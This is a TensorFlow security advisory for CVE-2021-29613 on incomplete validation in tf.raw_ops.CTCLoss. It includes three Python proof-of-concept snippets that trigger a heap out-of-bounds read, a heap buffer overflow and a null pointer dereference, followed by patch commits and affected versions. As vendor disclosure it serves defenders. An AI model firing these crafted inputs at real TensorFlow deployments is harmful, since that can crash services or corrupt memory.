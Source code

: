 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-101.md
## TFSA-2021-101: Incomplete validation in `tf.raw_ops.CTCLoss`

### CVE Number
CVE-2021-29613

### Impact
Incomplete validation in `tf.raw_ops.CTCLoss` allows an attacker to trigger an
OOB read from heap:

```python
import tensorflow as tf

inputs = tf.constant([], shape=[10, 16, 0], dtype=tf.float32)
labels_indices = tf.constant([], shape=[8, 0], dtype=tf.int64)
labels_values = tf.constant([-100] * 8, shape=[8], dtype=tf.int32)
sequence_length = tf.constant([-100] * 16, shape=[16], dtype=tf.int32)

tf.raw_ops.CTCLoss(inputs=inputs, labels_indices=labels_indices,
                   labels_values=labels_values, sequence_length=sequence_length,
                   preprocess_collapse_repeated=True, ctc_merge_repeated=False,
                   ignore_longer_outputs_than_inputs=True)
```

An attacker can also trigger a heap buffer overflow:

```python
import tensorflow as tf

inputs = tf.constant([], shape=[7, 2, 0], dtype=tf.float32)
labels_indices = tf.constant([-100, -100], shape=[2, 1], dtype=tf.int64)
labels_values = tf.constant([-100, -100], shape=[2], dtype=tf.int32)
sequence_length = tf.constant([-100, -100], shape=[2], dtype=tf.int32)

tf.raw_ops.CTCLoss(inputs=inputs, labels_indices=labels_indices,
                   labels_values=labels_values, sequence_length=sequence_length,
                   preprocess_collapse_repeated=False, ctc_merge_repeated=False,
                   ignore_longer_outputs_than_inputs=False)
```

Finally, an attacker can trigger a null pointer dereference:

```python
import tensorflow as tf

inputs = tf.constant([], shape=[0, 2, 11], dtype=tf.float32)
labels_indices = tf.constant([], shape=[0, 2], dtype=tf.int64)
labels_values = tf.constant([], shape=[0], dtype=tf.int32)
sequence_length = tf.constant([-100, -100], shape=[2], dtype=tf.int32)

tf.raw_ops.CTCLoss(inputs=inputs, labels_indices=labels_indices,
                   labels_values=labels_values, sequence_length=sequence_length,
                   preprocess_collapse_repeated=False, ctc_merge_repeated=False,
                   ignore_longer_outputs_than_inputs=False)
```

### Patches
We have patched the issue in GitHub commit
[14607c0707040d775e06b6817325640cb4b5864c](https://github.com/tensorflow/tensorflow/commit/14607c0707040d775e06b6817325640cb4b5864c)
followed by GitHub commit
[4504a081af71514bb1828048363e6540f797005b](https://github.com/tensorflow/tensorflow/commit/4504a081af71514bb1828048363e6540f797005b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
